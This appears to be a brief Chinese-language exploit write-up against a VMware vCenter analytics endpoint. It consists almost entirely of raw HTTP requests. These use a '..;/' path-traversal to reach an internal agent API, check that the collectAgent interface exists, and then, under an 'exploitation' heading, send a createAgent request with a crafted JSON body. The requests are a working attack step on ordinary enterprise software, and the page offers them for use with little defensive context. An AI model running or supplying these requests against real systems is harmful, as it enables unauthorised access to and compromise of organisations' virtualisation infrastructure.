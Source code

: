 ```bash
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

返回 200，collectAgent 接口存在，每次请求需要修改 X-Plugin-Type

```bash
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?action=collect&_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 2
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: MoWtrXYtWo
Accept-Encoding: gzip, deflate
Connection: close
{}
```

## 漏洞利用

createAgent  
每次请求修改 X-Plugin-Type

```bash
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```
